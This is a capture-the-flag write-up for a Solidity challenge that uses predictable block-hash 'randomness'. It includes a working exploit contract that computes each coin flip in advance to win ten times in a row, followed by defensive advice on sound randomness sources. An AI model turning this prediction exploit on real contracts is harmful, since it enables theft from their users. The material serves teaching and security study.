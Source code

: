 # 03. Coin Flip
<sup>Difficulty 3/10</sup>

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help:

- See the Help page above, section "Beyond the console"

## Solution

The algorithm does not use a valid RNG generator. The random number is generated as:

```solidity
// 1. Get block hash
uint256 blockValue = uint256(blockhash(block.number.sub(1)));

// 2. Verify value is not equals to the last one
if (lastHash == blockValue) {
  revert();
}
lastHash = blockValue;

// 3. Divide the blockValue for a static variable
uint256 coinFlip = blockValue.div(FACTOR);

// 4. RNG (?) :D
bool side = coinFlip == 1 ? true : false;
```

From [solidity docs](https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html#block-and-transaction-properties):

> `block.number (uint)`: current block number

> `block.blockhash(uint blockNumber) returns (bytes32)`: hash of the given block - only works for 256 most recent, excluding current, blocks - deprecated in version 0.4.22 and replaced by `blockhash(uint blockNumber)`.

This is not an actual random generation function and it shouldn't be used as it allows a bad actor to predict the result of the estraction.

To complete the challenge we need to create an our contract on Rinkeby that calculate the winning side and submit it to the actual contract.

```solidity
// Copy everything from the challenge contract
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6be0b410dcb77bc046cd3c960b4170368c502162/contracts/math/SafeMath.sol';
contract CoinFlip {
  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  constructor() public {
    consecutiveWins = 0;
  }
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    if (lastHash == blockValue) {
      revert();
    }
    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
// Then create the Exploit contract we will use to win the challenge
contract ExploitContract {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address originalAddress = 0x6370131977a2955c0bA8Bf319477A853580eb592; // change according to the challenge address
  CoinFlip public originalContract = CoinFlip(originalAddress);
  function exploit() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    originalContract.flip(side);
  }
}
```

Submit exploit function for ten times. Then in the challenge console:

```javascript
(await contract.consecutiveWins()).words[0]
// 10
```

## OZ Corner

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

